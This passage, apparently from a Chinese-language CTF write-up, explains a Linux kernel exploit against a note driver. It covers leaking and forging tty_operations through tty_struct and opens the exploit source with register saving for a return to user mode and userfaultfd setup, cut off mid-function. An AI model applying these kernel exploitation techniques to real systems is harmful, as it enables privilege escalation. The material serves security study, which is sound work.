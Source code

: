 ```c
	.cleanup = pty_cleanup,
};
```

在一个线程被阻塞时，我们可以通过read函数读取到tty_operations的地址值，通过最后12比特来确认这里的值是pty_unix98_ops还是ptm_unix98_ops。

**注意：tty_alloc_driver函数实际上调用的是__tty_alloc_driver这个函数，其中将tty_struct的magic字段赋值为TTY_DRIVER_MAGIC，值为0x5402（4.15.8版本内核，不同版本的值可能不同）。因此可以通过读取magic值判断这块内存是否被分配为tty_struct结构体。**

我们将tty_operations改为我们构造好的结构，但本题开启了SMP保护，不能直接写一个用户空间的内存地址。考虑到notegift函数能够为我们返回所有note的地址，因此可以考虑将tty_operations写在note里面。

# Step 11 exp编写——写好交互
实现接口与提示性输出。
uffdexploit.c:
```c
//
// Created by root on 22-7-28.
//
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <ctype.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#ifndef ROOTFS_UFFDEXPLOIT_H
#define ROOTFS_UFFDEXPLOIT_H
static pthread_t monitor_thread;
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\n\033[0m");
}

void errExit(char * msg)
{
    printf("\033[1;31m[x] Error: %s\n\033[m", msg);
    exit(EXIT_FAILURE);
}

/**
 * 为一块指定地址addr、大小len的内存空间注册缺页异常函数handler
 */
void registerUserFaultFd(void * addr, unsigned long len, void* (*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
```